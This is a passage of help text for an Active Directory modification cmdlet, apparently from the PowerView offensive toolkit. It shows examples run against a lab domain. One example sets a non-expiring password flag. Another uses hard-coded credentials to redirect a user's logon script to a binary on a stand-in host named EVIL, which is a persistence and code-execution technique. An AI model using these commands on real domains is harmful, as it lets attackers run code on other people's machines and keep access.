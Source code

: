 ### -------------------------- EXAMPLE 3 --------------------------
```
"S-1-5-21-890171859-3433809279-3366196753-1108","testuser" | Set-DomainObject -Clear department -Verbose
```

Cleares the 'department' field for both object identities.

### -------------------------- EXAMPLE 4 --------------------------
```
Get-DomainUser testuser | ConvertFrom-UACValue -Verbose
```

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512


Set-DomainObject -Identity testuser -XOR @{useraccountcontrol=65536} -Verbose

VERBOSE: Get-DomainSearcher search string: LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string: (&(|(samAccountName=testuser)))
VERBOSE: XORing 'useraccountcontrol' with '65536' for object 'testuser'

Get-DomainUser testuser | ConvertFrom-UACValue -Verbose

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536

### -------------------------- EXAMPLE 5 --------------------------
```
Get-DomainUser -Identity testuser -Properties scriptpath
```

scriptpath
----------
\\\\primary\sysvol\blah.ps1

$SecPassword = ConvertTo-SecureString 'Password123!'-AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Set-DomainObject -Identity testuser -Set @{'scriptpath'='\\\\EVIL\program2.exe'} -Credential $Cred -Verbose
VERBOSE: \[Get-Domain\] Using alternate credentials for Get-Domain
VERBOSE: \[Get-Domain\] Extracted domain 'TESTLAB' from -Credential
VERBOSE: \[Get-DomainSearcher\] search string: LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: \[Get-DomainSearcher\] Using alternate credentials for LDAP connection
VERBOSE: \[Get-DomainObject\] Get-DomainObject filter string: (&(|(|(samAccountName=testuser)(name=testuser))))
VERBOSE: \[Set-DomainObject\] Setting 'scriptpath' to '\\\\EVIL\program2.exe' for object 'testuser'
